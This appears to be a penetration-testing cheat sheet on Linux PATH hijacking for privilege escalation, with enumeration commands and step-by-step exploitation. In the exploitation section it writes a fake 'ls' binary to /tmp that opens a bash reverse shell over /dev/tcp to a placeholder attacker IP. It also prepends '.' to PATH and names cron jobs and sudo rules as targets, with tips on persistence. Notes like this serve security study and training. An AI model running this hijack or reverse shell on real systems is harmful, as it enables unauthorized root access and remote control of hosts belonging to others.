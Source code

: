 ### 1. Technique Name:

Path Abuse
### 2. Summary:

The `$PATH` environment variable defines directories in which the shell looks for executables when a command is run. If a user’s or script’s PATH includes writable directories, especially the current directory (`.`), it is possible to hijack legitimate commands by placing malicious scripts with the same name. This can lead to privilege escalation if a higher-privileged user runs the tampered command.
### 3. Conditions / Requirements:

- Ability to modify the PATH variable or control a directory already in PATH    
- Write permissions to a directory in another user's or script's PATH
- A privileged user or automated script that executes commands from the modified PATH
- (Optional) `.`, the current directory, included early in PATH
### 4. Enumeration Steps:
#### A. Check Current PATH:

```bash
echo $PATH
env | grep PATH
```
#### B. Look for Writable Directories in PATH:

```bash
echo $PATH | tr ':' '\n' | xargs -I{} sh -c 'test -w {} && echo "Writable: {}"'
```
#### C. Identify Scripts/Binaries Called Without Full Path:

Look for scripts run via cron, services, or sudo with commands like `ls`, `cp`, `netstat`, etc., without full paths.
### 5. Exploitation Steps:
#### A. Inject Malicious Binary into PATH:

```bash
cd /tmp
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1' > ls
chmod +x ls
```
#### B. Prepend `.` or Controlled Directory to PATH:

```bash
export PATH=.:$PATH
```
#### C. Trigger the Binary Execution:

Run the command that's being hijacked:

```bash
ls     # Will now trigger /tmp/ls instead of /bin/ls
```
#### D. Privilege Escalation Scenario:

If a root-owned script executes `ls`, `cp`, or `conncheck` without an absolute path, and the attacker can write to a directory earlier in PATH, they can gain root execution of their malicious binary.
### 6. Post-Exploitation Tips:

- Clean up: remove malicious binary, restore original PATH    
- Use this method to get reverse shells or drop persistence binaries
- Monitor `/etc/environment`, `/etc/profile`, or `.bashrc` for persistent PATH changes
### 7. Example / Notes:

- Example of PATH modification and abuse:    

```bash
PATH=.:$PATH
export PATH
echo -e '#!/bin/bash\necho "PATH ABUSE!!"' > ls
chmod +x ls
ls
# Output: PATH ABUSE!!
```

- Example of directory in PATH used for binary:

```bash
pwd && conncheck
# Output shows netstat-like output
```

→ Even though the script was run from `/tmp`, it used `conncheck` from `/usr/local/sbin`.

- Best targets:    
    - Misconfigured cron jobs
    - Poorly written init scripts        
    - Sudo rules like `NOPASSWD: some_script.sh` that don’t use full binary paths
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #PATH_Abuse